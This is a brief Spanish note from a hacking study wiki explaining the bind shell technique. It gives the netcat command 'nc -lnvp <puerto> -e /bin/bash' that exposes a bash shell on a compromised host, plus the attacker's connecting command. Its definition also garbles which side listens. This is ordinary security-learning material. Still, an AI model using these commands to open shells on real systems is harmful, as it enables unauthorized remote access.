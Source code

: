# Bind shell

***

* Tags: #bash #shells #exploiting #hacking

***

## Definición

> Es una técnica opuesta a la \[\[Reverse shell]], ya que en vez de que la máquina comprometida se conecte a la máquina del atacante, es el atacante el que se conecta a la máquina comprometida. El atacante escucha por un puerto determinado, y la máquina comprometida es la que acepta la conexión en ese puerto. Tratamos de abrir un puerto temporal en la máquina comprometida, ofreciendo una bash para ser ejecutada por el atacante.

***

## Uso

Para exponer el puerto (usualmente el 443), utilizamos el siguiente comando con \[\[NetCat]]:

```bash
nc -lnvp <puerto> -e /bin/bash
```

Una vez expuesto el puerto, el atacante puede utilizar el siguiente comando para conseguir una \[\[Shell]]:

```bash
nc <IP> <puerto>
```
